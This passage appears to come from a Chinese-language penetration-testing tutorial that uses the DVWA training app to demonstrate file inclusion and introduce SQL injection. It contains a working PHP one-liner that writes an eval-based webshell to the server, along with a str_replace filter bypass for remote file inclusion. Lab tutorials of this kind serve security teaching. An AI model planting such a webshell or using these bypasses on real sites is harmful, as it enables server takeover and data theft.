 创建shell文件

 ![1-5](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901213521.png)

```php
<?fputs(fopen("shell20.php","w"),'<?php eval($_POST[fafa20]);?>')?>
```

### 3.4、中安全级别的渗透

#### 3.4.1、本地文件包含

**本地文件包含：** 和低安全级别操作一样

#### 3.4.2、本地文件包含 + webshell

**本地文件包含 + webshell：** 和低安全级别操作一样

#### 3.4.3、远程文件包含 + webshell

**远程文件包含 + webshell**
后台源码用str_replace函数只替换一个http://，改成http:**http://**//即可

### 3.5、高安全级别的渗透

后台源码写死，文件后缀名限制，安全但不灵活

## 4、SQL注入及防御（重点）

 ![aHR0cHM6Ly9naXRlZS5jb20vd29fYmVsbC9QaWN0dXJlQmVkL3Jhdy9tYXN0ZXIvaW1hZ2UvU1FMJUU2JUIzJUE4JUU1JTg1JUE1JUU0JUJCJThCJUU3JUJCJThELnBuZw](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210902195810.png)

### 4.1、SQL注入危害

- 托库导致用户数据泄露
- 危害web等应用的安全
- 失去操作系统的控制权
- 用户信息被非法买卖
- 危害企业及国家的安全

### 4.2、SQL基础回顾

#### 1、登录OWASP

 ![2-4](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210902202213.png)

#### 2、查看数据库

```mysql
show databases; #查看所有数据库
select database(); #查看当前所在的库
use dvwa; #使用dvwa库
select database(); #返回当前所在数据库
select user(); #显示当前登录的用户
select now(); #返回当前时间
```
